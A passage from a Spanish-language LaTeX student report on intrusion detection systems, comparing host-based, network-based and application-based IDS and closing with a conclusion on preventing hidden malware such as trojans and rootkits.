                También se pueden seguir diferentes estrategias de monitorización. Dependiendo del tipo de control puede ser centralizado o distribuido. Se puede detectar anomalías y la mala utilización, a intervalos fijos o en tiempo real. Debemos de ajustar estos detalles adecuadamente para cumplir nuestros objetivos.

                \newpar

                Un punto a tener en cuenta cuando se utiliza un \texttt{IDS} es su tolerancia a fallos e invisibilidad. Un atacante no debería poder identificar al \texttt{IDS}, puesto que lo atacarían directamente. Por lo que las respuestas no deben alertarlos. El uso de criptografía y túneles cifrados hará más difícil que un posible atacante detecte las alertas generadas por el \texttt{IDS} y actúe en consecuencia.

                \newpar

                Pasamos pues a extendernos algo más en los dos principales tipos de \texttt{IDS} que se emplean.

        \subsection{Host-based IDS o HIDS}
            Este tipo de \texttt{IDS} obtiene la información de los propios dispositivos. Los \textit{logs} del sistema son más fáciles de interpretar, pero están menos detallados.

            \newpar

            Los registros de auditorías proporcionan información procedente del \textit{kernel} del sistema operativo. En general, esa información es más detallada, fiable y difícil de alterar.

            \newpar

            Los monitores de objetivos monitorizan el estado de determinados objetos del sistema. Por ejemplo, los verificadores de integridad. Así, este tipo de \texttt{IDS} será adecuado en función de lo que queramos lograr.

            \subsubsection{Ventajas}
                Permiten determinar qué procesos y usuarios están involucrados en un determinado ataque (y distinguir entre procesos y usuarios), observar el desenlace de diversos ataques (escalada de privilegios, \textit{buffer overflows}) y detectar anomalías en la ejecución de procesos (troyanos y otros tipos de software malicioso, intentos de modificación del \textit{kernel}), entre otros eventos.

                \newpar

                En definitiva, permiten obtener un informe exhaustivo de la máquina monitorizada con lo que se incrementan las posibilidades de detectar ataques y situaciones anómalas.

            \subsubsection{Inconvenientes}
                Tienen poca escalabilidad ya que solo puede haber un \texttt{IDS} por host. Estos \texttt{IDS} pueden ser también objetivo de ataque y pueden ser deshabilitados en ataques \texttt{DoS} (de denegación de servicio). No son adecuados cuando se produce \texttt{sniffing} (se captura y "lee") del tráfico de red o para ataques de sondeo de redes enteras. Además, al generar gran cantidad de información, afectan al rendimiento del \texttt{host} que los aloja.


        \subsection{Network-based IDS o NIDS}
            Capturan y analizan los paquetes de la red a la que están conectados. Consiste en un conjunto de \textit{hosts} denominados sensores cuyas tarjetas están en modo promiscuo y se encuentran en segmentos de red. También existe una máquina en el perímetro de la red a proteger. Al analizarlos más de cerca nos damos cuenta de sus principales ventajas e inconvenientes.

            \subsubsection{Ventajas}
                La escalabilidad es alta ya que podemos controlar una red de gran tamaño sin demasiadas máquinas. Esta estrategia presenta un bajo impacto en el funcionamiento de la red y la seguridad que logramos es elevada ya que estas máquinas dedicadas suelen ser invisibles a los atacantes.

            \subsubsection{Inconvenientes}
                La eficiencia suele ser un problema ya que es difícil analizar grandes cantidades de tráfico. Asimismo, el acceso a información de las redes de circuitos conmutados es más complicado y este tipo de \texttt{IDS} no puede analizar información cifrada a nivel de red. Además, no detectan el resultado del ataque una vez que este ha sucedido y pueden tener problemas con la fragmentación de datagramas \texttt{IP} ya que esto dificulta recomponer el tráfico.

                \newpar

                Incluimos una tabla que compara estos dos principales tipos de \texttt{IDS} en la tabla \ref{t:hids_nids}.

        \begin{table}
            \begin{tabular}{|c|c|c|P{7.5cm}|}
                \hline
                \textbf{Función} & \textbf{HIDS} & \textbf{NIDS} & \textbf{Comentarios}\\
                \hline
                Protección en \texttt{LAN} & \texttt{Sí} & \texttt{Sí} & Ambos sistemas protegen una \texttt{LAN}.\\
                \hline
                Protección fuera de una \texttt{LAN} & \texttt{Sí} & \texttt{No} & Solo el \texttt{HIDS} protege fuera de una \texttt{LAN}.\\
                \hline
                Facilidad de implementación & \texttt{Sí} & \texttt{Sí} & Ambos son igual de fáciles de implementar con un control centralizado.\\
                \hline
                Escaneo de máquinas & \texttt{Sí} & \texttt{No} & Solo el \texttt{HIDS} puede hacer estos escaneos.\\
                \hline
                Rechazo de paquetes & \texttt{No} & \texttt{Sí} & Solo el \texttt{NIDS} puede llevar a cabo esta función.\\
                \hline
                Compatibilidad multiplataforma & \texttt{No} & \texttt{Sí} & El \texttt{NIDS} es independiente del \texttt{SO} de las máquinas.\\
                \hline
            \end{tabular}
            \caption{Comparación entre \texttt{HIDS} y \texttt{NIDS}}
            \label{t:hids_nids}
        \end{table}

        \subsection{Application-based IDS}
            Este tipo de \texttt{IDS} trabaja a nivel de aplicación y han de emplearse junto con un \texttt{HIDS} o \texttt{NIDS} para proteger apropiadamente. Pasamos a comentar sus puntos fuertes y débiles.

            \subsubsection{Ventajas}
                Detectan ataques específicos a una aplicación y el análisis es más exhaustivo.

            \subsubsection{Inconvenientes}
                Los \texttt{logs} de las aplicaciones están menos protegidos. Trabajan en espacio de usuario y no son capaces de detectar troyanos.

    \section{Conclusión}
        Dentro de los diversos ataques que pueden afectar a nuestros sistemas, el de malware oculto es uno de los más utilizados y peligrosos debido a su capacidad de pasar desapercibido. Pueden acceder a través de un archivo descargado de apariencia inofensivo como es el caso de los troyanos para infectar y conseguir crear un backdoor que permita un posterior acceso al sistema o máquina por parte del atacante.

        \newpar

        En ocasiones, ni siquiera hace falta descargar un elemento de forma consciente de \texttt{Internet} como en el caso de los \textit{drive-by download}, que aprovechan las webs donde está escondido su código para realizar la descarga de malware de forma camuflada.

        \newpar

        Hay diversas maneras de detectar este tipo de malware que se pueden compaginar para garantizar su éxito. No obstante, lo más importante es la prevención puesto que este tipo de malware puede ser muy complicado de eliminar incluso una vez detectados. Este es el caso de los \textit{rootkit}, por ejemplo. Para ello es imprescindible tener las directrices de seguridad esocgidas bien implementadas además de contar con unas aplicaciones actualizadas y un sistema operativo al día y con sus correspondientes parches de seguridad instalados.

        \newpar

        Asimismo, nunca debemos olvidar que por muchas medidas que tomemos el usuario suele ser el eslabón más débil de todo el sistema. Por ello tendremos que concienciar a toda aquella persona que emplee nuestro sistema si deseamos mantener un entorno tan seguro como nos sea posible.

        \newpar

        Esperamos haber sido capaces de condensar una gran cantidad de información de una manera hábil y liviana. Nosotros desde luego vemos la seguridad en general y el malware en particular desde una perspectiva radicalmente disitinta.

    % Bibliography page
    \newpage

    % Make uncited entries appear!
    \nocite{*}
    \bibliographystyle{plain}
    \bibliography{refs}{}
\end{document}